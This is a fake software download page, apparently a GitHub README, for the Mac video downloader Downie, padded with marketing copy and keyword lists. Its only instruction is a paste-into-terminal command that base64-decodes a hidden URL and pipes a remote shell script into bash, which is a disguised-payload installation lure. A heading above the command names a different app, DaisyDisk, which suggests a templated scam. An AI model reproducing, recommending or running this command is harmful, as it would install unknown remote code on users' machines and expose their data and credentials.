 # Downie for Mac Download — Ultra HD Video Downloader 

![Downie Screenshot 1](https://software.charliemonroe.net/assets/images/custom/downie_permute.png)  

---

### 🔽 Download DaisyDisk for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```  

---

## What is Downie for Mac?  

**Downie for Mac** is a premium-grade video downloader meticulously crafted for macOS, offering unparalleled compatibility with thousands of websites. Whether you're a student, content creator, or casual user, Downie transforms video downloading into a seamless, one-click process.  

Unlike other video downloaders that require complex setups or limited functionality, Downie stands out with its ability to handle 4K/8K content, batch processing, and smart quality detection. The app integrates directly with your browser, allowing you to download videos from YouTube, Vimeo, TikTok, and over 1,000 other platforms with just a single click.  

With its native macOS design and optimized performance for both Intel and Apple Silicon chips, Downie runs smoothly in the background without slowing down your system.  

![Downie Screenshot 2](https://i.ytimg.com/vi/rZG7uBtoNtg/maxresdefault.jpg)  

---

## Key Features & Benefits  

- 🎥 **4K & 8K Support** - Download videos in ultra-high definition  
- ⚡ **Batch Processing** - Save multiple videos simultaneously  
- 🔍 **Smart Detection** - Automatically fetches the best available quality  
- 🌐 **Browser Integration** - Works with Safari, Chrome, and Firefox  
- 🏷 **No Watermarks** - Pristine videos without annoying tags  
- 🔄 **Format Conversion** - Save as MP4, MOV, or audio-only (MP3)  

Whether you're archiving rare content, preparing materials for editing projects, or simply want offline access to your favorite videos, Downie delivers exceptional performance with minimal effort.  

---

## 🔍 Keywords  

Downie for Mac, Downie Mac Download, Downie for Mac Download, Downie Mac, Downie Download Mac, Downie Download for Mac, Downie full version, Mac Download Downie, Download Mac Downie, Download Downie Mac, Download Downie for Mac
